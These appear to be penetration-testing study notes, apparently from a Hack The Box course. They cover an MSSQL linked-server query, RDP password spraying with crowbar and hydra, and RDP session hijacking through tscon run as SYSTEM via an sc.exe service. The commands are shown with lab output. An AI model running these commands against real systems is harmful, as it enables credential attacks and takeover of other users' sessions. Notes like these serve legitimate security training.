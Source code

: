 | sqlcmd> EXECUTE('select @@servername, @@version, system\_user, is\_srvrolemember(''sysadmin'')') AT \[10.0.0.12\SQLEXPRESS] | Identify the user and its privileges used for the remote connection in MSSQL.                                 |

## Attacking RDP

* `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` → rdp password spraying
* `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`

then login with `xfreerdp`

### **RDP Session Hijacking (this method does not work on server 2019)**

* `query user`

<figure><img src=".gitbook/assets/Untitled (15).png" alt=""><figcaption></figcaption></figure>

we are currently logged in as use `juurena` and has `Administrator` privileges. Our goal is to hijack the user `lewen` who is logged in via RDP

For this we should have system privileges and use the Microsoft `tscon.exe` binary.

`C:\\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`

→ If we are local administrator, we can use several methods to obtain SYSTEM privileges such as `mimikatz` or `PsExec`

one simple trick is to create a windows service, that, by default will run as local system and will execute any binary with system privileges

We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```
C:\\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

*   `net start sessionhijack` → to run the service
